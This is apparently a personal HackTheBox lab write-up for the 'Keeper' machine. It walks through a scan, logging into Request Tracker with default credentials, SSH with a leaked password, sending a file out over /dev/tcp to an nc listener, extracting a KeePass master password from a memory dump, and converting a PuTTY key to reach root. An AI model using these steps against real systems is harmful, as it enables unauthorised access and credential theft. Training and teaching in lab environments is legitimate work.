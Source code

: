 ### NMAP

```
sudo nmap -sC -sV -oN keeper-nmap 10.10.11.227
```

![[HackTheBox/Linux/attachments/Pasted image 20250504235335.png]]
- 22, 80

Browse to website 

![[HackTheBox/Linux/attachments/Pasted image 20250504235425.png]]
- add tickets.keeper.htb to /etc/hosts

Navigate to tickets.keeper.htb and we see a login 

![[HackTheBox/Linux/attachments/Pasted image 20250504235549.png]]

Also get some info from the website footer
![[HackTheBox/Linux/attachments/Pasted image 20250504235610.png]]
- version RT 4.4.4

Google "request tracker 4.4.4" to find any public exploits (nope)

Google "request tracker default password"

Default creds - `root:password`

![[HackTheBox/Linux/attachments/Pasted image 20250504235933.png]]

Try these default creds and we login to the web app.

There are some tickets (this is like a helpdesk ticket tracker site)
![[HackTheBox/Linux/attachments/Pasted image 20250505000122.png]]

Looking at the user and we see the initial password is Welcome2023!
![[HackTheBox/Linux/attachments/Pasted image 20250505000348.png]]

### SSH in as User for Initial Access
Try to ssh in as lnorgaard with the Welcome2023! password

```
ssh lnorgaard@10.10.11.227
```

❗initial access❗

![[HackTheBox/Linux/attachments/Pasted image 20250505000552.png]]
- send this RT30000.zip to kali
On Kali
```
nc -lvnp 9001 > RT30000.zip 
```

On shell 
```
cat RT30000.zip > /dev/tcp/10.10.14.8/9001
```

![[HackTheBox/Linux/attachments/Pasted image 20250505000812.png]]

Unzip the file 

![[HackTheBox/Linux/attachments/Pasted image 20250505000937.png]]
- KeePass database 
- KeePass dump file 

KeePass database password is likely within the dump file. 

Google "extract keepass password from dump"

Here's a github tool [Keepass Password Dumper ](https://github.com/vdohney/keepass-password-dumper)

Clone this repo and execute 

```
dotnet run ../KeePassDumpFull.dmp
```

It dumps out the password 
![[HackTheBox/Linux/attachments/Pasted image 20250505001428.png]]

Try to open keepass database using this password, but it doesn't work. 

![[HackTheBox/Linux/attachments/Pasted image 20250505001603.png]]

Google the password string and it autocorrects to this 

![[HackTheBox/Linux/attachments/Pasted image 20250505001739.png]]

Input this string instead and we can open the keepass database

Poking through the KeePass database and discover putty private key 

![[HackTheBox/Linux/attachments/Pasted image 20250505002600.png]]

We also see this root password 
![[HackTheBox/Linux/attachments/Pasted image 20250505002645.png]]

But this doesn't work
![[HackTheBox/Linux/attachments/Pasted image 20250505002710.png]]

Save the putty key as root.ppk 

### Convert Putty Key to OpenSSH

Install putty tools to get putty gen 

```
sudo apt install putty-tools
```

![[HackTheBox/Linux/attachments/Pasted image 20250505003020.png]]

Run the conversion but get an error 

![[HackTheBox/Linux/attachments/Pasted image 20250505003119.png]]

We are ppk version 3. 

We have putty gen 7.4 and we need putty gen 7.5

Go to the putty source code site and download the source archive

![[HackTheBox/Linux/attachments/Pasted image 20250505003251.png]]

![[HackTheBox/Linux/attachments/Pasted image 20250505003319.png]]

Extract the archive  with `tar -zxvf`

![[HackTheBox/Linux/attachments/Pasted image 20250505003420.png]]

Run `cmake .` after cd'ing into the putty directory 

![[HackTheBox/Linux/attachments/Pasted image 20250505003511.png]]

Then run `cmake --build .`

![[HackTheBox/Linux/attachments/Pasted image 20250505003552.png]]

Find the puttygen

```
find . -name puttygen
```

![[HackTheBox/Linux/attachments/Pasted image 20250505003657.png]]

Then rerun the putty command to convert the ppk

![[HackTheBox/Linux/attachments/Pasted image 20250505003745.png]]

Change permissions of the new `id_dsa`

```
chmod 600 id_dsa
```

### SSH in as root 

```
ssh -i id_dsa root@1keeper.htb
```

![[HackTheBox/Linux/attachments/Pasted image 20250505003915.png]]

⭐ got root ⭐




